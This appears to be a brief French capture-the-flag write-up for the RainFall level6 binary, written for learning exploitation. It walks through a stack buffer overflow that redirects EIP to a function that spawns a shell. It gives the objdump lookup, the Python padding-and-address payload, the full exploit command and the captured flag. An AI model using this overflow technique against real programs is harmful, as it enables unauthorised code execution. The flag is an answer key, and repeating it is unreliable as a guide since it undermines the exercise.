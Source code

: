# Analyse du code

Dans le code nous voyons qu'il n'y a pas de controle dans les inputs utilisateur. il y a une fonction  n(), qui execute un bash.
On va exploiter ce buffer overflow en redirigant EIP vers n()

# Preparation du payload

- Trouver l'adresse de n() :
	level6@RainFall:~$  objdump -t ./level6  | grep n
	08048454 g     F .text  00000014              n
- payload 
	$(python -c "print('a'*72 + '\x54\x84\x04\x08')")

# Exploit
	prend en argument !!!!!!!!!!!!!!!!!!!!
	./level6 $(python -c "print('a' * 72 + '\x54\x84\x04\x08')")
	f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d
